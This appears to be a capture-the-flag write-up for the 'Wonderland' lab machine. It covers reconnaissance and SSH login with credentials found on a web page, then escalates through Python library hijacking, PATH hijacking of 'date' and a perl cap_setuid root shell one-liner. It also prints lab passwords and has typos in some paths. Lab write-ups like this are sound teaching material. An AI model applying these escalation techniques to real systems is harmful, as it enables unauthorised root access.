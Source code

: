 # Wonderland - Fall down the rabbit hole and enter wonderland - Medium

## Objectives - Find the flag in user.txt and root.txt

### I started by running a basic nmap scan on the target IP address

<p><span style="color:red"><em>nmap -A 10.10.97.29</em></span></p>

### With this scan we found that port 22 (ssh) and 80 (HTTP) are open. My next step was to curl the webpage to see if that would revel any vulnerabilities, it did not. Never fear, the next thing I did was run dirbuster on the webpage. Eventully I run down the web directories to: 

<p><span style="color:red"><em>http://10.10.97.29/r/a/b/b/i/t/</em></p>

### Next I inspected the webpage for more information and found what looks to be credentials for alice.

<p><span style="color:red"><em>alice:HowDothTheLittleCrocodileImproveHisShiningTail</em></span></p>

### Next Im going to try those credentials to access the SSH server. 

<p><span style="color:red"><em>ssh alice@10.10.97.29</em></span></p>

### Im in!! The first thing we see once we log into alices computer is root.txt and a .py file. The Python file is below:


```
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

[... REDACTED ...]

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
By doing:
<p><span style="color:red"><em>sudo -l</em></span></p>
We can see alice may run the folloiwng commands:


```
(rabbit) /usr/bin/python3.6 /hom/alice/walrus_and_thecarpenter.py
```

Next I created a .py file named random so that it would be imported and run the next time walrus_and_the_carpenter.py was run. In this python file I put:

```
import pty;pty.spawn("/bin/bash")
```

Finally the last thing I need to do is run the python file. 

<p><span style="color:red"><em>sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py</em></span></p>

Now that I was rabbit, I can starting looking around to see if there is anything else I can do to try and get root, luckily for me rabbit contained a file called teaParty. When you run strings on the file, this appears:

```
/bin/echo -n 'Probably by ' $$ date --date='next hour' -R
```
 This command grabs the current dtae and time then adds an hour to it. Since date is not called with a specified path, we are able to exploit that by first running the command:
 
<p><span style="color:red"><em>export PATH=/tmp:$PATH</em></span></p>

then 

<p><span style="color:red"><em>echo $PATH</em></span></p>

to ensure we did it correctly. 
Next I created a shell script named date in the /tmp directory and made it executable by using the command:

<p><span style="color:red"><em>chmod  +x /tmp/date</em></span></p>

The code inside of the shell scirpt is just a simple:

<p><span style="color:red"><em>#!/bin/bash /bin/bash</em></span></p>

The only thing left to do know in order to gain access to hatter is to ./teaParty. After gaining access we can we that hatter contains a password.txt file.

```
WhyIsARavenLikeAWritingDesk?
```

Next using LinPEAS, a linux vulnerability scanner, I discovered that hatter has access to /usr/bin/pearl = cap_setuid+ep. Using the GTFObins exploit we gain root access. [GRFOBin](https://gtfobins.github.io/gtfobins/perl/)

<p><span style="color:red"><em>perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
</em></span></p>

After getting root access we can cat the root.txt and usr.txt files and complete the challenge. 

